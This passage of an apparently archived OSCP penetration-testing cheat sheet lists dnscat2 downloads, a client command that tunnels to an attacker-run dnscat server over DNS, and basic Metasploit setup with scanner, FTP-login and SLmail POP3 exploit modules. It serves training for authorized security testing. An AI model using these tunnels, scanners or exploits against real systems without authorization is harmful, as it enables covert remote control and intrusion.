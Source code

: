     *   Target Machine:  
        [_https://downloads.skullsecurity.org/dnscat2/_](http://web.archive.org/web/20171113221652/https://downloads.skullsecurity.org/dnscat2/)

        [_https://github.com/lukebaggett/dnscat2-powershell/_](http://web.archive.org/web/20171113221652/https://github.com/lukebaggett/dnscat2-powershell/)

        `dnscat --host <dnscat server ip>`

# [](#the-metasploit-framework)The Metasploit Framework

*   See [_Metasploit Unleashed Course_](http://web.archive.org/web/20171113221652/https://www.offensive-security.com/metasploit-unleashed/) in the Essentials

*   Search for exploits using Metasploit GitHub framework source code:  
    [_https://github.com/rapid7/metasploit-framework_](http://web.archive.org/web/20171113221652/https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.

*   Metasploit

    *   MetaSploit requires Postfresql

        `systemctl start postgresql`

    *   To enable Postgresql on startup

        `systemctl enable postgresql`

*   MSF Syntax

    *   Start metasploit

        `msfconsole`

        `msfconsole -q`

    *   Show help for command

        `show -h`

    *   Show Auxiliary modules

        `show auxiliary`

    *   Use a module

            use auxiliary/scanner/snmp/snmp_enum  
            use auxiliary/scanner/http/webdav_scanner  
            use auxiliary/scanner/smb/smb_version  
            use auxiliary/scanner/ftp/ftp_login  
            use exploit/windows/pop3/seattlelab_pass

    *   Show the basic information for a module

        `info`

    *   Show the configuration parameters for a module

        `show options`
